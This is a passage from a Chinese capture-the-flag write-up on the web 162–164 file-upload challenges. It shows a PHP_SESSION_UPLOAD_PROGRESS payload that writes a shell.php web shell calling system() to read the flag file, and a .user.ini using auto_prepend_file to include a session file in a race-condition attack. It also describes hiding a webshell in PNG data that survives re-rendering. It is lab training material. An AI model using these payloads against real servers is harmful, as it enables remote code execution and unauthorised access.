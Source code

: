 例如直接查看flag，注意转义
```
'PHP_SESSION_UPLOAD_PROGRESS': '<?php file_put_contents("shell.php","<?php system(\'tac /var/www/html/flag.php\');?>");?>',
```

![flag](/medias/show-upload/20.png)

这题看别的师傅是使用vps，把ip转成单个数字避免.的出现来做的

## web 163  条件竞争

这题如果上传上一题的test.png，以及.user.png，再去掉test.png的.png，把.user.ini修改为.user.ini时，页面会提示没有test这个文件，无法包含

url/test，到了首页，url/.user.ini会下载.user.ini，说明.user.ini还在，那么可以省略掉test.png这一步，让.user.ini直接给当前目录所有文件包含session文件


```ini
GIF89a
auto_prepend_file=/tmp/sess_Cola
```

上传.user.ini后，再次使用上题的脚本，发现这次跑了很久，不过还好，还是出来了

## web 164 png二次渲染

参考[大佬文章](https://www.cnblogs.com/sen-y/p/15579078.html#autoid-11-0-0)，又学到了

:::tip
二次渲染
将一个正常显示的图片，上传到服务器。寻找图片被渲染后与原始图片部分对比仍然相同的数据块部分，将Webshell代码插在该部分，然后上传。具体实现需要自己编写Python程序，人工尝试基本是不可能构造出能绕过渲染函数的图片webshell的。
大佬链接：https://www.fujieace.com/penetration-test/upload-labs-pass-16.html
:::
